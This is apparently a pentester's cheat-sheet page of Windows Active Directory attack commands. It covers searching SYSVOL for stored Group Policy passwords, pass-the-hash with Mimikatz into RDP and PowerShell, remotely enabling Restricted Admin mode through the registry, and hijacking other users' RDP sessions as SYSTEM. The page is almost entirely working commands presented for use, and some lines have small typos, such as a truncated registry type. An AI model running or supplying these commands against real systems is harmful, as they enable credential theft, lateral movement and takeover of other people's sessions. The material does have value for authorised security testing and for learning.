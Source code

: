 ```yaml
---
title: "Miscellaneous"
date: 2020-07-17T20:59:33+02:00
draft: false
---
```


#### Search for cpassword entries in group policies

```findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml'```

***


#### Get the DC from a Domain Joines machine

PowerShell:
```
$env:LOGONSERVER
```
CMD:
```
echo %logonserver%
```
***

#### Using PowerView to enumerate Shares, Admin access and more (ToDo)
https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

#### Pass The Hash to mstsc.exe using Mimikatz

```sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"```

This will open a new RDP window. If it still shows the user you are currently logged on with, just ignore it - everything will just work.

A registry key controls if a server accepts Restricted Admin sessions. If you have the NTLM hash of a user that has privileges to set registry keys, you can use for example Powershell to enable it and log in via RDP afterwards:

```mimikatz.exe "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"```

A new Powershell window will pop up:

```powershell
Enter-PSSession -Computer <Target>
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWO
```

#### Connect to other users on the system that have a active RDP session
When you're on a system (as local admin) where other users are connected through RDP it is possible to hijack their session.
Launch taskmgr.exe under SYSTEM, e.g. using psexe:

```psexec.exe -sid taskmgr.exe```

Verify taskmgr is running under system, then navigate to the 'users' tab, right click on the user you want to take over and click 'connect'.

#### References
https://edermi.github.io/post/2018/native_rdp_pass_the_hash/